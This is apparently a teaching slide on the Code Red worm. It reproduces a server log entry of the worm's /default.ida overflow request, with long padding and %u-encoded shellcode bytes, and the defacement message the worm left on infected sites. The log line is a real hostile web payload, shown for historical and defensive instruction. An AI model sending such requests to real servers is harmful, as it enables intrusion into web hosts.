

# Code Red
Log entries
GET /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN%u9090%u6858
%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%
u7801%u9090%u9090%u8190%u00c3%u0003%u8b00%u531b%u53ff%u007
8%u0000%u00=a HTTP/1.0
When the worm infected a vulnerable web server, Code Red changed the contents of the website to:
HELLO ! Welcome to http://www.worm.com! Hacked By Chinese!